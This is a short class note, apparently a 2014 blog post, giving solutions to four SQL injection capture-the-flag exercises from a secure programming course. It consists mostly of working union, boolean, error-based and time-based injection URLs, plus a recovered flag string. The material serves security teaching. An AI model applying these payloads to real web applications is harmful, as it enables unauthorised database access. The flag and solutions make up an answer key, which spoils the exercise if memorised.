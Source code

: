 ====================
 Secure Programming
====================

:date: 2014-12-09 19:11
:modified: 2014-12-17 21:45
:tags: secprog, ctf, sqli
:category: note
:slug: secure-programming-20141209
:authors: Zespre Schmidt
:about_author: Bug generator
:email: starbops@gmail.com
:summary: 2014/12/09 Secure Programming Class Note

SQLi1
=====

- need encode ' '

.. code-block:: text

    http://tor.atdog.tw:8080/union/news.php?id=1
    http://tor.atdog.tw:8080/union/news.php?id=1)union(select 1,(select flag from wtf_flags))%23

SQLi2
=====

.. code-block:: text

    http://tor.atdog.tw:8080/boolean/login.php?u=admin&p=admin
    http://tor.atdog.tw:8080/boolean/login.php?u=admin&p=admin' and exists(select 1from information_schema.tables where ord(substr((select table_name from information_schema.tables limit 1), 1, 1))=67)%23

- CSRF
- XSS


SQLi3
=====

- ``ooooooooofl4gsss``

.. code-block:: text

    http://tor.atdog.tw:8080/error/index.php?id=(select 2*if((select * from (select table_name from infoorrmation_schema.tables limit 41,1)s), 18446744073709551610, 18446744073709551610)) = 1

- ``flag``

.. code-block:: text

    http://tor.atdog.tw:8080/error/index.php?id=(select 2*if((select * from (select column_name from infoorrmation_schema.columns limit 1,1)s), 18446744073709551610, 18446744073709551610)) = 1

- ``SecProg{why_my_pay1oad_is_s0_Complic4tEd}``

.. code-block:: text

    http://tor.atdog.tw:8080/error/index.php?id=(select 2*if((select * from (select flag from ooooooooofl4gsss limit 1,1)s), 18446744073709551610, 18446744073709551610)) = 1

SQLi4
=====

.. code-block:: text

    http://tor.atdog.tw:8080/time/track.php?action=1 and (sleep(ascii(substr((select table_name from information_schema.tables limit 41,1),4,1))%25100)) = 1
    http://tor.atdog.tw:8080/time/track.php?action=1 and (select if(((select table_name from information_schema.tables limit 41,1)='what_flags'),sleep(10),0))=1


